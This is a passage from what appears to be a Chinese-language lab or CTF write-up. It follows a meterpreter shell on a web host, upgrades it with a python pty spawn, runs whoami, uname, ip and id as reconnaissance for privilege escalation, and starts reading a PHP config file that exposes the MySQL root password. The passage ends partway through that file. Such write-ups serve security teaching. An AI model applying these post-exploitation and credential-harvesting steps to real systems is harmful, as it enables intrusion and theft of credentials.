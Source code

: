         ```sql
        meterpreter > shell
        Process 1680 created.
        Channel 0 created.
        sh: getcwd() failed: No such file or directory
        sh: getcwd() failed: No such file or directory
        
        python -c "import pty;pty.spawn('/bin/bash')" //获得交互性更好的shell
        shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
        www-data@web:$ 
        ```
        
        获得`www-data`的`shell`
        

## 提权

1. 查看权限
    
    ```sql
    www-data@web:$ whoami
    www-data
    //
    www-data@web:$ uname -a
    Linux web 2.6.38-8-server #42-Ubuntu SMP Mon Apr 11 03:49:04 UTC 2011 x86_64 x86_64 x86_64 GNU/Linux
    //
    www-data@web:$ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
        link/ether 00:0c:29:5d:85:45 brd ff:ff:ff:ff:ff:ff
        inet 192.168.75.150/24 brd 192.168.75.255 scope global eth0
        inet6 fe80::20c:29ff:fe5d:8545/64 scope link 
           valid_lft forever preferred_lft forever
    //
    www-data@web:$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```
    
2. 信息收集
    - 获取数据库连接配置文件，获得数据库用户`root`，密码`goodday`
        
        ```sql
        www-data@web:/var/www$ cat mysqli_connect.php 
        <?php # Script 8.2 - mysqli_connect.php
        
        // This file contains the database access information.
        // This file also establishes a connection to MySQL
        // and selects the database.
        